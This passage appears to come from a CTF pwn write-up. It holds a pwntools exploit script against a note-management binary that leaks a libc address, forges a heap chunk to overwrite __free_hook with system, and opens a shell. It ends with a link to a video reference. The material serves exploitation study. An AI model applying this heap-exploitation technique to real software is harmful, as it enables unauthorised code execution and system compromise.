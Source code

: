     add_note(1, b'b'*8)
    edit_note(1, 0x18, b'b')

    add_note(2, b'c'*8)

    '''------------------
    Leak libc address
    ------------------'''
    delete_note(0)
    show_note()
    r.recvuntil(b'data:')
    libc = (u64(r.recv(8)) >> 8) - 0x1ecbe0 - 0xa000000000000
    info(f"libc address: {hex(libc)}")
    free_hook_addr = libc + 0x1eee48
    info(f"__free_hook address: {hex(free_hook_addr)}")
    libc_sys_addr = libc + 0x52290
    info(f"__libc_system address: {hex(libc_sys_addr)}")

    '''------------------
    Construct fake chunk
    ------------------'''
    data = b'/bin/sh\x00'.ljust(0x10, b'b')
    fake_chunk = flat(
        0, 0x21,
        b'cccccccc', b'cccccccc',
        free_hook_addr
    )

    edit_note(1, 0x38, data + fake_chunk)
    edit_note(2, 0x8, p64(libc_sys_addr))
    delete_note(1)

    r.interactive()
    ```
    :::
## Reference
[SS111-Pwn2](https://youtu.be/MwjSNFQIx0c)